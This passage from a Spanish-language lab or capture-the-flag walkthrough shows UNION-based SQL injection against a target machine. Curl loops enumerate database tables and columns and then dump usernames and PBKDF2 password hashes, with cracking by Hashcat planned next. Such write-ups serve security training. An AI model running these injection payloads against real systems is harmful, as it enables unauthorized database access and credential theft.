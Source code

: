 ```mysql
  "username": "ozdb"
  "username": "performance_schema"

Consulta 4:
Vamos a averiguar las tablas de una de las bases de datos encontradas anteriormente:
"' union select table_name from information_schema.tables where table_schema="osdb" limit 0,1-- -" 
# for i in $(seq 0 10); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20table_name%20from%20information_schema.tables%20where%20table_schema=%22ozdb%22%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "tickets_gbw"
  "username": "users_gbw"
   null

Consulta 5:
Vamos a averiguar las columnas de la tabla en la base de datos que ya hemos encontrado: Usamos Curl: Iteramos sobre un FOR
"' union select column_name from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" limit 0,1-- -"
# for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20column_name%20from%20information_schema.columns%20where%20table_schema=%22ozdb%22%20and%20table_name=%22users_gbw%22%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "id"
  "username": "username"
  "username": "password"
```
Ya tenemos los Campos `Username & Password` que son en los que queremos visualizar la `DATA` dentro de ellos.
Como `Solo Tenemos una columna` necesitamos jugar con un `GROUP_CONCAT(username, password)` para poder listar dos campos en una sola columna.

```bash
Consulta 6:
vamos a listar los campos Username, Password de la tabla "users_gbw" de la base de datos "ozdb"
"' union select group_concat(username,':',password) from users_gbw-- -"
# curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(username,%22:%22,password)%20from%20users_gbw--%20-"  | tr ',' '\n'                     

username":"dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
```
Encontramos unos hashes, estos hashes pueden ser `crackeados` y averiguamos el tipo de hash que es para luego mediante el uso de la herramienta `Hashcat` 

- TIPO DE HASH - Identificado en hashcat examples hashes wiki 
`| PBKDF2-HMAC-SHA256 | sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt |`

